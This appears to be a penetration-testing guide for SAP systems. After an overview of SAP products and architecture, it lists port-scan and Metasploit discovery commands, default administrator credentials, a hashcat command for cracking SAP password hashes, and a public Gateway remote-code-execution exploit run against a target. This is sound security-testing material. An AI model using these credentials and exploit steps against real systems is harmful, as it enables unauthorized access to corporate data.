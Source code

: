 ### 1 - Introduction:

SAP stands for **Systems, Applications, and Products in Data Processing** and distributes ERP (Enterprise Resource Planning) software which allows to manage the activity of large and small companies. ERP stands for Enterprise Resource Planning and is a business process management system that automates and integrates all of an organization's core business processes into a shared database to streamline processes and information across the organization.

#### SAP Provides 5 ERP: 

- **SAP ERP (SAP)**: This is the classic suite that can be deployed on site, on a public IaaS or in a private cloud. SAP also offers companies to migrate SAP ERP to a PaaS by converting it to S/4HANA.
- **S/4HANA**: S/4HANA is the **new generation** of ERP from SAP. Used primarily by medium and large companies with annual revenues of at least $250 million.
- **S/4HANA Cloud**: This is the SaaS version of S/4HANA.
- **SAP Business One**: SAP Business One is SAP's ERP suite for **small and medium-sized enterprises** (SME). This suite is designed for companies with up to 350 employees.
- **SAP Business ByDesign**: this is the SaaS version of SAP and allows to do financial management, including CRM, HRIS/HCM and more...


#### Systems covered by SAP include:

- Enterprise Resource Planning (ERP) - supports the basic internal business processes of a company
- Customer Relationship Management (CRM) – helps companies acquire and retain customers, gain marketing and customer insight
- Product Lifecycle Management (PLM) – helps manufacturers with product-related information
- Supply Chain Management (SCM) – helps companies with the process of resourcing its manufacturing and service processes
- Supplier Relationship Management (SRM) – enables companies to procure from suppliers


#### SAP Specific terms:

##### What is a CLIENT ?

The SAP client concept allows an organization to split a system into logical subunits and they contains independent information and data. The number of clients in a SAP system directly influences the following:

- **Buffer**: The number of clients impacts buffering demand. An example is main memory usage.
- **Upgrade**: Different activities are affected by SAP upgrades, where run timers are longer, depending on the number of clients.

*SAP Client Roles:*
- **Client CUST**: Used for making developments and serving other customer-specific requirements. The SAP transport management system is used to move CUST client changes to other clients.
- **Client QST**: Defined for testing and verifying various applied changes.
- **Client PRD**: Used for production and business activities.

*Known Clients:*
- **000** : this client is called as golden client which is provided by SAP as refrence client.
- **001** : this client is called as configuration client which have all the SAP standard customizing client.
- **066** : is the earlywatch client for SAP use.

Architecture based on SAP:

![image](https://user-images.githubusercontent.com/75935486/153075669-6a7c6b54-b522-44c2-8605-f4761f84ebe5.png)

 The **Internet Communication Manager** (ICM) sets up the connection to the Internet and process both server and client Web requests and the Central services (message server and enqueue server) is used for lock administration, message exchange and load balancing in the SAP system.
 
 **AS ABAP components:**
 - The dispatcher: distributes the requests to the work processes.
 - The work processes: executes ABAP or Java programs.
 - The SAP Gateway: provides the RFC interface between the SAP instances.
 
 **AS Java components:**
 - The Server Processes: execute Java requests.
 - The instance controller: controls and monitors the life cycle of the AS Java instance.

### 2 - Discovery:

Port Scanning
```python
nmap -sCV -T3 --min-rate=3000 -p 1128,3201,3299,3301,3901,4901,4902,4903,8101,30101,30102,30103,30104,30107,30108,30111,30116,40000,40001,40002,40080,46287,50000,50001,50004,50007,50013,50014,50020,50113,50114 127.0.0.1
```

useful metasploit scanners:
- `msf > use auxiliary/scanner/sap/sap_service_discovery`
- `msf > use auxiliary/scanner/sap/sap_router_info_request`
- `msf > use auxiliary/scanner/sap/sap_router_portscanner`

![image](https://user-images.githubusercontent.com/75935486/153284008-14b61bbc-a3c1-41e3-924b-f9af8ef79606.png)


#### Proxying SAPRouter:
```bash
set proxies sapni:<network-ip>:3299
```

### 3 - Password Stealing & Hash Cracking:

###### Default Credentials:

User ID | Description | Clients | Password |
--- | --- | --- | --- |
SAP* | Super user | 000,001, 066 new clients | 06071992, PASS
DDIC | ABAP Dictionary super user | 000,001 | 19920706 
EarlyWatch | User for the EarlyWatch Service | 066 | SUPPORT
SAPCPIC | Communication User | 000,001 | ADMIN 

###### Cracking hashes:

![image](https://user-images.githubusercontent.com/75935486/153094382-443663fc-52d1-4ad8-ab4b-48723ce661f6.png)

*example*: Cracking ***SAP CODVN B (BCODE)** hash `TESTUSER1$D1FD06BD3B0744D9` using hashcat:
```bash
hashcat -m 7700 hash -a 0 /usr/share/wordlists/rockyou.txt  --force
```
![image](https://user-images.githubusercontent.com/75935486/153094640-3f9a9408-3e1e-41ff-9cbe-03923d898818.png)


### 4 - Code Execution:

> https://github.com/chipik/SAP_GW_RCE_exploit

```bash
➜python SAPanonGWv1.py -t 172.16.30.28 -p 3300 -c whoami
[*] sending cmd:whoami
RistBS
```
